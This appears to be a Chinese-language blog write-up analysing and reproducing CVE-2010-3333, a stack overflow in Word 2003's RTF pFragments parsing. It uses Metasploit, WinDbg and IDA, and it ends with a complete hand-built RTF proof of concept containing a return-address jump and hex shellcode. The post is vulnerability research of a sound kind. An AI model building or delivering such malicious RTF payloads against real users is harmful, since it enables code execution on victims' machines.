 ```yaml
---
layout:		post
title:		CVE-2010-3333分析 & 复现
author:		wooy0ung
tags:		cve
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Microsoft Office Word 2003 SP3  
>注意: 需要安装英文版, 安装后不是SP3的记得打上SP3的补丁包。  
>摘要: CVE-2010-3333(MS10-087)是Microsoft Office Word在处理RTF文档的绘图pFragments属性时产生的一个栈溢出漏洞。
<!-- more -->


### 0x00 前期准备

安装Microsoft Office 2003 SP3 & 生成msf.rtf

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf > info
msf > set target 6
msf > run
```

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x00.png)

启动Word, WinDbg附加上去, 打开msf.rtf触发异常, 断在了内存copy指令rep movs(0x30ed442c)上

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x01.png)

发现该指令往READONLY内存区域写数据, 触发异常

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x02.png)

定位mso.dll模块的路径

```
# 以上用到的命令
> db esi
> db edi
> !address edi
> lmm mso v
```


### 0x01 栈回溯

重新载入, 在0x30ed442c下断, 定位崩溃函数的调用函数

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x03.png)
![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x04.png)

目标函数地址0x30f0b5c2, 下断, 重新载入, 单步到30F0B5F8 call dword ptr [eax+1Ch]跟进去

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x05.png)

定位到30ED4424 add esi, [eax+10h], 此处赋值esi=1005000c, 指向存放rtf pFragments数据的地址

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x06.png)

再单步到30ED442C rep movsd, ecx=0xc8ac(需要copy的字节数)/4=0x322b

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x07.png)

F5直接运行, 触发异常, 打印待copy的数据

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x08.png)

对比PoC, ecx长度过大, 覆盖到不可写区域崩溃掉

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x09.png)
![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0a.png)

```
#以上用到的命令
> bp 30ed442c
> kb
> ub mso!Ordinal1273+0x2581
```


### 0x02 静态分析

打开IDA, 载入mso.dll, 定位到30ED4407 mov edi, [esp+4+arg_4]

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0b.png)

edi指向一个栈地址, 看一下栈布局, 从arg_4开始覆盖

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0c.png)

定位到sub_30f0b5c2, 再看看调用函数的栈布局

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0d.png)

返回地址偏移上面arg_4 0x18-0x08+0x04=0x14 byte, 也就是任意填充14byte就到达返回地址


### 0x03 手工构造PoC

截取msf.rtf的头部

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0e.png)

填充14 byte 1111...后,再填充4byte 2222...., 最后填充}}}}将数据封闭上

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x0f.png)

这里14byte、4byte是对栈数据来说, 实际上上WinHex上分别要填充28byte、8byte

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x10.png)

Windbg附加上去, 在30F0B6BA retn 14h断下, 单步一下, 发现eip=22222222, 成功劫持了eip

![](/assets/img/exploit/2017-09-25-cve-2010-3333/0x11.png)

下面就是构造rop了, 不再赘述, 完整的PoC如下, pwn!

```
# 0x7ffa4512(万能跳)+0x28byte * '0'+shellcode
{\rtf1{\shp{\sp{\sn pFragments}{\sv 5;3;11111111111111111111111111111111111111111111111111111245fa7f000000000000000000000000000000000000000031d2b230648b128b520c8b521c8b42088b72208b12807e0c3375f289c703783c8b577801c28b7a2001c731ed8b34af01c645813e4661746175f2817e084578697475e98b7a2401c7668b2c6f8b7a1c01c78b7caffc01c76867202001687930756e6820776f6f89e1fe490b31c05150ffd7}}}}
```